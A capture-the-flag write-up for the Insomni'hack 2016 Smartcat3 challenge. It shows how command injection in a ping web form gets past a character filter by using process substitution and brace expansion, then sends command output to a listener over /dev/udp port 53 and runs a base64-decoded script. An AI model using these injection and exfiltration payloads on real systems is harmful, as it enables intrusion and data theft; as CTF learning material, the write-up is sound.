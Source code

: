 #Insomni'hack CTF 2016 : Smartcat3

##Write-up

This challenge was a little bit tricky but fun.
It is based on a website with a form to get the status (Up/Down) of an IP. The source code was avalaible [you can find it here](http://pastebin.com/haAqxW9w)

So, the tricky part was to bypass the `sanity_check` function which parse our input and return TRUE if any of this char is found : ```"$&\;`|*"``` and the result must be send on the port 53 because of the firewall : `# The firewall only allows the strict minimum required for this chall, aka # OUTPUT on udp/53 and icmp. INPUT is port 80 only."`

After some research, it was possible to execute arbitrary command with the following payload : `<(ls>/dev/udp/123.123.123.123/53)` and get the following result in the nc listenner : `ping.cgi`

It was nice, but we needed an other trick because space char is not in `string.ascii_letters, string.digits, string.punctuation` so the sanity_check function return TRUE if we use space.
After some research, we found to following trick : 
In bash, if you use `{}` you can get a string with space like this :
`echo {"Hello","World"}`

>Hello World

So, it was possible the search some flag file in the filesystem like this :
`<({ls,-la,../..}>/dev/udp/123.123.123.123/53)`

And find it on the top root directory :
`<({../../../../../../read_flag,flag}>/dev/udp/192.168.5.104/53)`

But a last part was asked :
`Almost there... just trying to make sure you can execute arbitrary commands....
Write 'Give me a...' on my stdin, wait 2 seconds, and then write '... flag!.
Do not include the quotes. Each part is a different line."`

The easy solution is the following :

```
echo -ne '(echo "Give me a..."; sleep 2; echo "... flag!") | /read_flag flag' | base64
KGVjaG8gIkdpdmUgbWUgYS4uLiI7IHNsZWVwIDI7IGVjaG8gIi4uLiBmbGFnISIpIHwgL3JlYWRfZmxhZyBmbGFn
```

Then :
```
<({base64,-d,KGVjaG8gIkdpdmUgbWUgYS4uLiI7IHNsZWVwIDI7IGVjaG8gIi4uLiBmbGFnISIpIHwgL3JlYWRfZmxhZyBmbGFn}>/tmp/tmpfile.sh
<({bash,/tmp/tmpfile.sh}>/dev/udp/192.168.5.104/53)
```

And get the flag !
Enjoy, thank to [Xer](https://twitter.com/XeR_0x2A) for his help :)
[Rawger](https://twitter.com/_rawger)
